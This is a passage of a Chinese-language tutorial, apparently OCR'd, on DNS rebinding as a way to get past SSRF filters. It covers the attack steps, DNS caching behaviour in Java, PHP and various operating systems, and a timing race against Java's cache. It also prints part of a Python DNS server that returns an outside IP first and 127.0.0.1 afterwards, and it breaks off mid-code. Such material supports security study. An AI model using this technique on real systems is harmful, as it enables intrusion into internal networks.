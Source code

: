 当我们设置 TTL 为 0 时，当第一次解析域名后，第二次会重新请求 DNS 服务器获取新的 ip。DNS 重绑定攻击的原理是：利用服务器两次解析同一域名的短暂间隙，更换域名背后的 ip 达到突破同源策略或过 waf 进行 ssrf 的目的。  
  

这里利用方法如下：  
  

1\. 在网站 SSRF 漏洞处访问精心构造的域名。网站第一次解析域名，获取到的 IP 地址为 A；  
2\. 经过网站后端服务器的检查，判定此 IP 为合法 IP。  
3\. 网站获取 URL 对应的资源（在一次网络请求中，先根据域名服务器获取 IP 地址，再向 IP 地址请求资源），第二次解析域名。此时已经过了 ttl 的时间，解析记录缓存 IP 被删除。第二次解析到的域名为被修改后的 IP 即为内网 IP B；  
4\. 攻击者访问到了内网 IP。   

  

当然，上述情况是最理想的情况，在不同的语言，不同服务器中也存在差异

   
1\. java 中 DNS 请求成功的话默认缓存 30s(字段为 networkaddress.cache.ttl，默认情况下没有设置)，失败的默认缓存 10s。（缓存时间在 /Library/Java/JavaVirtualMachines/jdk /Contents/Home/jre/lib/security/java.security 中配置）  
2\. 在 php 中则默认没有缓存。  
3\. Linux 默认不会进行 DNS 缓存，mac 和 windows 会缓存 (所以复现的时候不要在 mac、windows 上尝试)  
4\. 有些公共 DNS 服务器，比如 114.114.114.114 还是会把记录进行缓存，但是 8.8.8.8 是严格按照 DNS 协议去管理缓存的，如果设置 TTL 为 0，则不会进行缓存。   

  

在传统的 ssrf 修复方案中，由于 java 会存在默认的 dns 缓存，所以一般认为 java 不存在 DNS rebinding 问题。但是试想这么一个场景，如果刚刚好到了 DNS 缓存时间，此时更新 DNS 缓存，那些已经过了 SSRF Check 而又没有正式发起业务请求的 request，是否使用的是新的 DNS 解析结果。其实理论上只要在发起第一次请求后等到 30 秒之前的时候再请求即可，但为了保证效果，可以在 28s 左右，开始以一个较短的时间间隔去发送请求，以达到时间竞争的效果。相关示例代码可参考附录三。  
  

Dns rebinding 常见方案除了自建 dns 服务器之外，还可以通过绑定两个 A 记录，一个绑定外网 ip，一个绑定内网 ip。当然这种情况访问顺序是随机的，无法保证成功率。  
  

自建 dns 服务器需要将域名的 dns 服务指向自己的 vps，然后在 vps 上运行 dns\_server 脚本，dns\_server.py 内容如下   

  

```python
from twisted.internet import reactor, defer
from twisted.names import client, dns, error, server


record={}
class DynamicResolver(object):
    def _doDynamicResponse(self, query):
        name = query.name.name
        if name not in record or record[name]<1:
            # 随意一个 IP，绕过检查即可
            ip="104.160.43.154"
        else:
            ip="127.0.0.1"
        if name not in record:
            record[name]=0
        record[name]+=1
        print name+" ===> "+ip
        answer = dns.RRHeader(
            name=name,
            type=dns.A,
            cls=dns.IN,
            ttl=0,
            payload=dns.Record_A(address=b'%s'%ip,ttl=0)
        )
        answers = [answer]
        authority = []
        additional = []
        return answers, authority, additional
    def query(self, query, timeout=None):
        return defer.succeed(self._doDynamicResponse(query))

def main():
    factory = server.DNSServerFactory(
```